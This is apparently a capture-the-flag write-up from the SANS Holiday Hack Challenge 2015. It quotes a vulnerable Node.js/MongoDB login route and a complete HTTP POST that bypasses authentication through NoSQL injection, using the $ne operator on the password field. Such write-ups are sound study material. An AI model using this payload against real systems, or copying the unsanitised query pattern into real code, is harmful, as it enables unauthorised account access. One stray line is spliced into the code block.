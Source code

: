 Vulnerability: LFI and Directory Traversal<br />
Gnome Serial Number: **XKCD988** = [https://xkcd.com/988/]

### SG-03

SuperGnome-03 really stumped me for awhile. I tried logging into the web portal
with the same admin credentials but was denied. The user account did work, but
did not have sufficient permissions. After talking to some of the individuals in
Dosis neighborhood, I learned about NoSQL injection. Looking at the LOGIN POST section of the firmware confirmed my suspicions. I include that code below for reference, it was located in the <code>/www/routes/index.js</code> file.

{% codeblock index.js %}
// LOGIN POST
   router.post('/', function(req, res, next) {
   var db = req.db;
   var msgs = [];
   db.get('users').findOne({username: req.body.username, password: req.body.password}, function (err, user) { // STUART: Removed this in favor of below.  Really guys?
   //db.get('users').findOne({username: (req.body.username || "").toString(10), password: (req.body.password || "").toString(10)}, function (err, user) { // LOUISE: allow passwords longer than 10 chars
    if (err || !user) {
       console.log('Invalid username and password: ' + req.body.username + '/' + req.body.password);
       msgs.push('Invalid username or password!');
       res.msgs = msgs;
title = "sans holiday challenge 2015 writeup"
   } else {
       sessionid = gen_session();
       sessions[sessionid] = { username: user.username, logged_in: true, user_level: user.user_level };
       console.log("User level:" + user.user_level);
       res.cookie('sessionid', sessionid);
       res.writeHead(301,{ Location: '/' });
       res.end();
         }
    });
});
{% endcodeblock %}

The part that tripped me up was forging the Content-Type to "application/json"
in order to use the <code>$ne</code> operator. Note: You can also use <code>$gt</code> here.

I constructed a POST in *Burp* in order to bypass the login:

        POST / HTTP/1.1
        Host: 52.64.191.71
        User-Agent: merry xmas you filthy animal
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  ￼
        Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate
        Referer: http://52.64.191.71/
        Cookie: sessionid=duTDpykscaXdKJeH3ioC Connection: close
        Content-Type: application/json Content-Length: 68
        {
        "username": {"$eq": "admin"},
        "password": {"$ne": ""}
        }

